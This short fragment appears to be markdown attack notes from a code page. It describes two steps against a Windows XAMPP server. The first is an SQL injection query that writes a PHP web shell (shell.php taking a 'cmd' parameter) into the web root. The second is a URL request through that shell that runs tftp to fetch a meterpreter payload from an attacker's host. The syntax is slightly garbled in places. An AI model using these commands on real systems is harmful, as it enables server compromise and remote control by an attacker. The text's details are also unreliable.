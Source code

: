 1. Create a basic shell using an sql injection of php.system call and store it on the server(stager payload)
``` sql
SELECT "<?php.system($_GET['cmd']);? into outfile "C:\\xampp\htdocs\shell.php">"
```
 2. Use FileZilla tftp Client to get the payload on the server and bypassing length limiting for url parameter
 ``` sql
http://<IP-W>/shell.php?cmd=tftp <IP-K> get meterpreter.php C:\\xampp\\htdocs\\meterpreter.php
```